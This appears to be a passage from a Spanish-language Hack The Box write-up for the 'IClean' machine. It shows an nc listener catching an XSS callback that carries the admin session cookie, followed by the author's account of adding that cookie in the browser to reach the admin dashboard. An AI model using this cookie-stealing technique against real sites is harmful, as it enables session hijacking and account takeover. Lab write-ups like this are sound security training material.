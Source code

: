 ```bash
┌──(root㉿kali)-[/opt]
└─# nc -lvnp 80              
listening on [any] 80 ...
connect to [10.10.16.100] from (UNKNOWN) [10.10.11.12] 33764
GET /xss-75.js?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZoJ-cQ.ue-npu2ARF9jBsm2mP8niqHN4vo HTTP/1.1
Host: 10.10.16.100
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Ahora que tengo la cookie, abrí el inspector, la añadí  y accedí a la ruta dashboard identificada anteriormente, logrando ingresar al panel de administración del sitio web.


![](/assets/images/htb-writeup-IClean/cook.png)


